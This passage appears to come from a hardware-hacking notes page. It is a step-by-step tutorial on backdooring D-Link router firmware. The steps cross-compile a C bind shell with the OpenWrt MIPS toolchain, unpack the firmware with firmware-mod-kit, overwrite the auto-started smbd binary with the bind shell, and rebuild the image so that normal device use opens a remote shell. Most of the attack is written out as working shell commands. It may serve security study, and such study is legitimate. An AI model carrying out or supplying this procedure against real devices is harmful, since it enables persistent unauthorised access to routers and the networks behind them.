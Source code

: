 3. By default, these commands will compile the firmware for the Atheros AR7 type of System on a Chip (SoC) routers, which are based on MIPS processors. To set a different value, click Target System and choose one of the available Atheros AR7 devices.

![](Screenshots/Pasted%20image%2020220625173837.png)

Then save your changes to a new configuration file by clicking the SAVE  
option, and exit from the menu by clicking the EXIT option

4. Move a C bindshell to OpenWrt's directory. You can use [this sample C Linux Bindshell](/Code%20Snippets/C%20Linux%20Bind%20Shell.md)

5. In OpenWrt’s staging_dir/toolchain-mips_24kc_gcc-8.4.0_musl/bin/mips-openwrt-linux-musl-gcc, you’ll find the mips-openwrt-linux-gcc compiler, which you can use as follows:

```bash
export STAGING_DIR=/opt/openwrt/staging_dir
./staging_dir/toolchain-mips_24kc_gcc-8.4  
.0_musl/bin/mips-openwrt-linux-gcc bindshell.c -o bindshell -static -EB -march=24kc
```

6. Clone and install firmware-mod-kit to unpack the firmware.
```bash
git clone https://github.com/rampageX/firmware-mod-kit
cd firmware-mod-kit
./extract-firmware.sh Dlink_firmware.bin
```

7. For the attack to be successful, the firmware should replace an existing binary that runs automatically, guaranteeing that any normal use of the device will trigger the backdoor. During the dynamic analysis phase, we indeed identified a binary like that: an SMB service running at port 445. You can find the smbd binary in the /userfs/bin/smbd directory. Let’s replace it with the bindshell.

```bash
cp bindshell /userfs/bin/smbd
```

8. After replacing the binary, reconstruct the firmware using the build firmware script
```bash
./build-firmware.sh
```
